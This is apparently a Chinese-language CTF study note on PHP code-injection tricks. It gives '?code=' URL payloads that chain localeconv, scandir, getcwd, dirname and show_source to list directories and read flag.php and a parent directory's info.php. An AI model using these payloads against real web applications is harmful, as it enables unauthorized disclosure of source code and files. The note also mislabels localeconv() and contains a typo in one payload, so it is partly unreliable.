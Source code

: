 ### strrev()

用于反转给定的字符串

### crypt()

用来加密

目前linux平台上加密的方法大致有**MD5,DES,3 DES**

### hebrevc()

数据流转换

### localeconv()

查看当前目录



### 查看当前目录下文件

两种方法:

第一种

`?code=print_r(localeconv());`

显示的数组第一项为"."

`?code(print_r(scandir(current(localeconv())));`

使用**scandir()**读取当前目录"."下所有文件名

`?code=show_source(current(array_reverse(scandir(current(localeconv())))));`

查看flag.php源代码

第二种

`?code=print_r(getcwd());`      #查看当前目录文件

`?code=print_r(scandir(getcwd()));`        #读取当前目录下文件

再配合**end()**和**show_source()**读取flag.php源代码





### 查看上级目录

`dirname()`  #上级目录()相当于`cd ..`

`?code=print_r(dirname(getcwd()));`     #上一级目录

`?code=print_r(scandir(dirname(getcwd())));`    #查看上一级目录

如果想查看上一级目录下最后一行的"info.php"的话,如果构造payload:

`?code=show_source(end(scandir(dirname(getcwd()))));`
